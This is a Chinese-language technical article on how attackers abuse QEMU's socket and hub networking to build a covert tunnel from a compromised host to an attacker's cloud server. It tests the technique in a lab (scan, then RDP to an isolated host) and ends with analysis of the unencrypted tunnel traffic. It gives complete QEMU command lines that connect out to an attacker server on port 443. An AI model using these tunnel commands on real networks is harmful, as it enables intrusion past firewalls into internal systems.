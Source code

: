 # 一种利用合法工具渗透的新型方法

摘要

黑客在执行各种攻击步骤时倾向于优先选择合法工具，因为这些工具能帮助他们规避检测系统，同时将恶意软件开发成本降至最低。网络扫描、捕获进程内存转储、数据外泄、远程运行文件，甚至加密驱动器——所有这些都可以通过可信软件完成。为了在受损基础设施内获得立足点并发起攻击，黑客可以利用先前安装的恶意软件或通过公司的远程桌面协议（RDP）服务器或企业 VPN 与员工一同连接到网络（攻击者必须拥有具有适当权限的账户）。连接到受攻击组织的内部网络的另一种方式涉及使用实用程序设置网络隧道或在企业系统和对手服务器之间转发网络端口，从而使攻击者能够绕过 NAT 和防火墙，获取对内部系统的访问权限。本片文章讲述就是这类软件。

QEMU 利用方法

先来看一段命令行, 该命令可以在没有 LiveCD 或磁盘映像的情况下启动:

```bash
qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev
socket,id=sock,connect=<IP>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev
hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

该命令的参数解释如下:

- `qemu-system-i386.exe`: QEMU 系统的可执行文件。
- `-m 1M`: 指定虚拟机的内存大小为 1MB。这里指定的内存量非常小，可以模拟某些特定场景或测试用途。
- `-netdev user,id=lan,restrict=off`: 创建一个用户模式网络设备，其 ID 为`lan`，并且禁用了限制（`restrict=off`）。用户模式网络设备允许虚拟机通过主机的网络连接到外部网络。
- `-netdev socket,id=sock,connect=<IP>:443`: 创建一个基于 Socket 的网络设备，其 ID 为`sock`，并且连接到指定 IP 地址和端口 443。可用于与远程服务器建立网络通信。
- `-netdev hubport,id=port-lan,hubid=0,netdev=lan`: 创建一个网络集线器端口，其 ID 为`port-lan`，并将其连接到 ID 为`lan`的网络设备。
- `-netdev hubport,id=port-sock,hubid=0,netdev=sock`: 创建另一个网络集线器端口，其 ID 为`port-sock`，并将其连接到 ID 为`sock`的网络设备。
- `-nographic`: 这个参数指定不使用图形界面显示虚拟机的输出。通常用于在没有图形界面的环境中运行虚拟机，比如通过 SSH 连接。

通过上面的命令, 攻击者可以启动一个非常小的 QEMU 虚拟机, 该虚拟机具有一个基于用户模式的网络设备和一个基于 Socket 的网络设备, 可以用于建立到指定 IP 地址和端口的网络连接。

根据 QEMU 文档描述, QEMU 与 QEMU 虚拟机之间是可以进行远程网络连接的, 如果攻击者攻入一个企业内部, 该企业内部正好也使用了 QEMU 虚拟机, 那么攻击者便可以建立外网 QEMU 与企业内网 QEMU 之间的网络连接。

用户网络堆栈和虚拟集线器

用户网络堆栈式将虚拟机连接到网络的最简单方法, 流量通过主机网络堆栈传递, 虚拟机连接到网络, 就好像它是主机机器上的常规应用程序一样。看下面这条命令:

```bash
qemu-system-x86_64 -netdev user,id=mynet0 -device e1000,netdev=mynet0
```

该命令参数含义如下:

- `qemu-system-x86_64`: QEMU 系统的可执行文件，用于启动 x86_64 架构的虚拟机。
- `-netdev user,id=mynet0`: 创建一个用户模式网络设备，其 ID 为`mynet0`。用户模式网络设备允许虚拟机通过主机的网络连接到外部网络。
- `-device e1000,netdev=mynet0`: 创建一个 e1000 型号的网络设备，并将其连接到 ID 为`mynet0`的网络设备。e1000 是一种虚拟网卡设备，常用于 QEMU 虚拟机中模拟以太网连接。

该命令启动了一个 QEMU 虚拟机，该虚拟机具有一个用户模式的网络设备，允许连接到外部网络，并使用 e1000 型号的网络设备模拟以太网连接。

QEMU 虚拟集线器是一种网络设备，用于在 QEMU 虚拟机之间建立网络连接。它类似于物理网络集线器，可以将多个虚拟机连接到同一个网络中，从而实现虚拟机之间的通信。通过虚拟集线器，虚拟机可以进行网络数据包的交换和传输，就像它们连接到同一个物理网络设备一样。虚拟集线器通常与其他网络设备配合使用，如虚拟网络适配器和套接字，以便在虚拟环境中模拟网络通信。

QEMU Socket

这种方式是通过网络套接字连接虚拟机, 以创建虚拟机网络拓扑或链接在不同主机上启动的虚拟机。

首先启动一个 VM1, 命令如下:

```bash
qemu-system-x86_64 -netdev socket,id=mynet3,listen=:1234 -device e1000,netdev=mynet3
```

然后启动一个 VM2, 并连接到 VM1,命令如下:

```bash
qemu-system-x86_64 -netdev socket,id=mynet4,connect=127.0.0.1:1234 -device
e1000,netdev=mynet4
```

VM1 在端口 1234 上监听，而 VM2 连接到该端口, 对于攻击者来说, 相当于在受害系统中启动一个客户端, 让它连接到攻击者服务器以打开对企业网络的访问权限, 该网络位于运行客户端的系统中, 这种方式几乎不会影响受害系统的性能, 因为攻击者在运行 QEMU 时既不会使用磁盘映像也不使用 LiveCD。

下面将通过一个模拟环境来模拟实现上面技术, 模拟的网络环境主要包含三个部分:

- InternalHost 位于网络内部，没有互联网访问权限，并在端口 3389 上运行 RDP 服务器。它模拟了无法访问互联网的隔离系统。
- PivotHost 位于网络内部，但具有互联网访问权限。它模拟了被攻击者入侵并用于到达 InternalHost 的系统。
- AttackerServer 托管在云中，模拟了攻击者服务器。

以下是模拟环境的网络布局情况, 如图:

![图片](./一种利用合法工具渗透的新型方法.assets/640-1714039077737-2.webp)

在以上环境中, 在攻击者服务器上使用 QEMU 启动了一个来自 Kali Linux LiveCD 的虚拟机, 一个套接字类型的网络设备连接到虚拟机作为网络适配器, 并在端口 443 上进行监听。启动命令如下:

```bash
qemu-system-x86_64 -boot d -cdrom kali-linux-2023.3-live-amd64.iso -m 6048 -device
e1000,netdev=n1,mac=52:54:00:12:34:56 -smp 2 -netdev socket,id=n1,listen=:443
```

在 PivotHost 上运行了另一个 QEMU 副本，并通过套接字网络设备连接到位于云端的 AttackerServer 的 443 端口。此外还连接了一个用户类型的网络设备，通过一个集线器与套接字连接在一起。启动命令如下:

```bash
qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev
socket,id=sock,connect=<AttackerServer>:443 -netdev hubport,id=port-
lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

一旦启动，QEMU 在 PivotHost 和攻击者服务器之间建立了一个网络隧道，更确切地说，是到 Kali Linux 虚拟机。Kali Linux 可以扫描与 PivotHost 连接的子网以查找其他系统, 如图:

![图片](./一种利用合法工具渗透的新型方法.assets/640-1714039077737-3.webp)

扫描发现了内部主机，其 IP 地址为 192.168.56.109。Nmap 显示端口 3389 是开放的。尝试使用 RDP 连接到内部主机, 如图:

![图片](./一种利用合法工具渗透的新型方法.assets/640-1714039077737-4.webp)

因此，基本可以确定这种实现网络访问的技术确实有效。除了前面提到的网络设备类型外，QEMU 还支持其他几种类型，这些类型也可以被恶意行为者利用。

QEMU 网络流量分析

进行流量隧道传输时，QEMU 不使用任何额外的加密。它传输封装的数据包是未加密的：发送到服务器的应用层数据包含封装的以太网帧的大小，如图:

![图片](./一种利用合法工具渗透的新型方法.assets/640-1714039077737-5.webp)

上图中封装的以太网帧大小为 89（0x59）字节。该值紧随其后的就是封装的以太网帧数据。

将流量进行存储，随后可以通过移除前 58 个字节（对于 TCP：14 个字节用于以太网 + 20 个字节用于 IP + 20 个字节用于 TCP 头 + 4 用于内部数据包大小）来获得封装的流量。这可以在从 PCAP 文件中删除所有不含封装流量的数据包之后，使用 Wireshark 软件包中的 editcap 程序来完成。命令如下:

```bash
editcap.exe -L -C 58 original.pcap extracted_traffic.pcap
```

结果是一个 PCAP 文件，其中包含通过隧道发送的流量, 如图:

![图片](./一种利用合法工具渗透的新型方法.assets/640-1714039077737-6.webp)
